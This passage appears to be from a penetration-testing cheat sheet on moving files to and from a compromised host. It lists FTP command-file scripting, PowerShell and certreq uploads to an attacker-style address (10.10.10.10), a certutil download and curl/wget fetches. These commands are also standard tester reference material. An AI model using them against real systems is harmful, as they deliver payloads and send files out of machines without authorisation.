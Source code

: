 #### FTP Transfers

```cmd
# Create FTP command file
echo open 10.10.10.10 21 > ftpcmd.txt
echo anonymous >> ftpcmd.txt
echo anonymous >> ftpcmd.txt
echo binary >> ftpcmd.txt
echo get file.exe >> ftpcmd.txt
echo quit >> ftpcmd.txt

# Use FTP with command file
ftp -s:ftpcmd.txt
```

#### PowerShell Uploads

```powershell
# Upload via POST request
$file = Get-Item "C:\Windows\Temp\file.exe"
Invoke-RestMethod -Uri "http://10.10.10.10/upload" -Method Post -Form @{ file=$file }

# Upload with WebClient
(New-Object Net.WebClient).UploadFile('http://10.10.10.10/upload', 'C:\Windows\Temp\file.exe')
```

#### LOLBins Transfers

```cmd
# Download with certutil
certutil -urlcache -split -f http://10.10.10.10/file.exe file.exe

# Upload with certreq
certreq -Post -config http://10.10.10.10/ C:\Windows\Temp\file.exe
```

### Linux File Transfers

#### Curl and Wget

```bash
# Download with curl
curl -o /tmp/file http://10.10.10.10/file

# Silent download with curl
curl -s -o /tmp/file http://10.10.10.10/file

# Download with wget
wget -O /tmp/file http://10.10.10.10/file

# Resume download with wget
wget -c -O /tmp/file http://10.10.10.10/file
```
